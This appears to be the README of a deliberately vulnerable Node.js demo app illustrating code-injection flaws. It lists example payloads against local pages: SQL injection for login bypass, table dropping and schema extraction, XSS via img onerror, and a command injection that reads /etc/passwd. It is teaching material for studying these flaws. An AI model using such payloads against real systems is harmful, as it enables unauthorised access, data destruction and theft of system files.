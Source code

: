# CWE-94-examples

This repository contains examples of code that violates CWE-94: Improper Control of Generation of Code ('Code Injection')

## Running the examples

```npm install```

```node app.js```

If you want to use nodemon:

```npm install -g nodemon```

```nodemon app.js```

Landing page:

```http://localhost:3000/```

## Examples

### Example 1

Page: /login

username:  `nesto' OR 1=1; --`
password: any

### Example 2

Page: /news

Search: `%'; --`

### Example 3

Page: /news
Add News data: `',''); DROP TABLE news --`

### Example 4

Page: /news
Add News data: `tajna tabela: ' || (SELECT tbl_name FROM sqlite_master  WHERE type='table' and tbl_name NOT like 'sqlite_%'),'user') --`

### Example 5

Page: /news
Clicking on link: `http://localhost:3000/news?search=%3Cimg%20src=x%20onerror=%22alert(5)%22/%3E`

### Example 6
Page: /news
Create new news with title: ` <img src=x onerror="alert(6)"/>`

### Example 7

Page: /news_alert
Clicking on link: `http://localhost:3000/news_alert?search=0%22);%20alert(7%2B%20%22`

### Example 8

Page: /list
Enter as folder to list: `/usr; cat /etc/passwd`
